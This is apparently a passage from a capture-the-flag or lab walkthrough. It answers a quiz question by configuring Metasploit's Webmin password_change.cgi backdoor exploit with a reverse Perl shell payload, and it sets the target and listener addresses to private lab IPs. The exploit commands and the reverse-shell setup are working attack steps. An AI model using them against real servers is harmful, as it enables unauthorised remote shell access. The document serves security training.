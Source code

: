 `2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor`

```
msf5 > use 2
```

3. Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third option we must set to 'True'?

```
msf5 exploit(linux/http/webmin_backdoor) > options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)

msf5 exploit(linux/http/webmin_backdoor) > set RHOSTS 10.10.129.211
RHOSTS => 10.10.129.211
msf5 exploit(linux/http/webmin_backdoor) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/webmin_backdoor) > set SSL true
SSL => true
```
